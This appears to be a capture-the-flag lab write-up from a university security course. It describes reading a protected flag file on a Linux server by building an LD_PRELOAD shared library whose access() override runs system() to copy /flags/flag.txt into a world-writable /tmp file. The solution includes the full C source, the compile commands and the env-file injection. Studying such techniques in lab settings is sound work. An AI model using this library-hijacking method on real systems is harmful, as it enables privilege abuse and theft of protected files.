




# Linux Environment

## Introduction

When connecting to a Linux server listening on the port 4006 on the host ctf-fsi.fe.up.pt using a netcat program on the shell: nc ctf-fsi.fe.up.pt 4006.

This server is running on Ubuntu 20.04 similar to the one used on the SEED Labs.

## Initial Situation

Initially we get access to the system and we depare ourselves with the following message from the admin:



He wrote a script that writes the flag to the 'flags' directory and then runs the 'reader' program:



This 'main.c' program runs every minute and calls a function 'access':



We can verify we don't have access to the 'flags' directory nor the last log.

Next we see a script that is running every minute.
From that we can start to develop a strategy to write the flag to a file that we can access by overriding the 'access' method used in the script written by the admin that is running every minute.

We want to access the 'flags' directory to read the contents of the 'flag.txt' file. 

## Solution

First we create a 'script.c' file that has a function access. This function is meant to call 'system()' so that it can write the contents of the flag.txt to the ll.txt file that we will create:<br>
```c
#include <stdlib.h>
#include <stdio.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
} 
```

Next we will create a new file named ll.txt and change the permissions making it possible for all users to read, write and execute. In this case we need this so that the program that calls 'access' function can actually write to the 'll.txt' file, since that function is executed by another user:
```	bash
    $ touch  ll.txt  
    $ chmod 777 ll.txt
```

After that we will compile the c file and create a new library:
```bash
    $ gcc -fPIC -g -c script.c
    $ gcc -shared -o script.so script.o -lc
```
Finally, we will create a new 'env' file and write a LD_PRELOAD override to it, making it so that the script will run our 'access' function instead of the original one when the 'env' is called:
```bash
    $ echo 'LD_PRELOAD=/tmp/script.so' > env
```

With that, we can use the script to write to the 'll.txt' file the flag that we can't access by reading the 'flag.txt'.

After 1 minute, we will get the flag by reading the 'll.txt' file, which is: 

